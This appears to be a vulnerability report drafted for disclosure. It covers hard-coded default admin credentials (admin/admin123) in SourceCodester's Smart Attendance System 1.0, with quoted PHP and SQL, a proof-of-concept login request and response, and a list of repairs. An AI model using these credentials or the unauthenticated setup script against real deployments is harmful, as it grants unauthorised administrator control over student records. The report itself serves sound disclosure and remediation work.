

# SourceCodester Smart Attendance System with QR Code Scanner 1.0 /login.php username= Use of Hard-coded Default Credentials

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18702/smart-attendance-system-qr-code-scanner-phpmysql.html
- https://www.sourcecodester.com/download-code?nid=18702

## Overview

- Smart Attendance System with QR Code Scanner, version 1.0 (current public download, 2026-11), ships exactly one administrative account — `admin` — whose factory password `admin123` is embedded twice: hard-coded in the `create_admin.php` bootstrap script (which prints the credentials to the browser) and pre-seeded as a bcrypt hash in the shipped SQL dump. There is no setup wizard and no forced password rotation, so every default deployment is owned by the publicly documented pair `admin/admin123`.

## Details

- Vulnerable file: `/create_admin.php` (hard-coded credentials) and `includes/attendance_db.sql` (dump seed); exploited through `/login.php`
- Affected version: 1.0 (current public download, 2026-11)
- The bootstrap script hard-codes the pair and echoes it on success:

```php
// create_admin.php:14-21
$username = 'admin';
$password = 'admin123';
$hash = password_hash($password, PASSWORD_DEFAULT);
...
$stmt = $pdo->prepare("INSERT INTO users (username, password) VALUES (?, ?)");
$stmt->execute([$username, $hash]);
echo "<h3>Success!</h3><p>User <b>admin</b> with password <b>admin123</b> has been created.</p>";
```

- Its own header comment invites anyone to run it, and it requires no authentication:

```php
// create_admin.php:2-4
// Run this file in your browser once: http://localhost/smart_attendance/create_admin.php
require 'includes/db.php';
```

- The shipped dump pre-seeds the same account; the hash verifies against `admin123` (verified by live login):

```sql
-- includes/attendance_db.sql:113-115
INSERT INTO `users` (`id`, `username`, `password`, `created_at`) VALUES
(1, 'admin', '$2y$10$h2PT9bE6m/2x8PeQxLY/0u7jWn2GGHgO32qOgd.YkUGBPMXBMnLD2', '2026-02-02 06:31:48');
```

- The login handler grants a session to any matching `users` row (the table has no role column — every row is a full admin):

```php
// login.php:16-19
if ($account && password_verify($pass, $account['password'])) {
    $_SESSION['user_id'] = $account['id'];
    $_SESSION['username'] = $account['username'];
    header("Location: index.php");
```

## Description

- Anyone who downloads this product — or reads the public write-ups about it — holds valid administrator credentials for every deployment that did not manually rebuild its accounts. The `admin` role controls students, schedules, and exports, and chains into this application's other issues (the unauthenticated password-reset endpoint, the formula-injection export). As shipped, the application is effectively pre-compromised: no exploit skill is required beyond typing the advertised pair into the standard login form.

## PoC

- Request — log in with factory credentials:

```
POST /login.php HTTP/1.1
Host: 127.0.0.1:8142
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin123
```

- Response (full admin session):

```
HTTP/1.1 302 Found
Set-Cookie: PHPSESSID=2n4pb20rksdqsqmeblvhhbit7t; path=/
Location: index.php
```

- `GET /index.php` with that cookie returns the admin dashboard (200).

- Unauthenticated `GET /create_admin.php` also executes for any visitor; on an existing install it discloses the PDO error (`Duplicate entry 'admin' for key 'username'`), and on a fresh install it creates and prints `admin/admin123` on screen.

## Payload

```
username=admin&password=admin123
```

## Screenshot: factory credentials land on the admin dashboard

The browser session below was started from the plain login form with `admin` / `admin123`; the response is the full administrator dashboard.



Full evidence log: `poc/F04-default-credentials.txt`.

## Suggested repair

1. Generate a random administrator password at install time, show it once to the installer, and refuse to serve the app until it has been changed.
2. Delete the hard-coded `admin123` in `create_admin.php` and the pre-seeded user row in `includes/attendance_db.sql`.
3. Ship no public-facing setup utility: `create_admin.php` must require an authenticated installer context or be removed from the production tree.
4. Add a one-time migration that locks any account still using a known default hash, plus login rate limiting.

## Dedup note

- NVD: the product's single CVE (CVE-2026-95957) is an XSS in `student_signup.php`; no default-credentials entry exists (checked 2026-11-09).
- VulDB: only VDB-408556 exists for this product; no credentials entry. New entry.
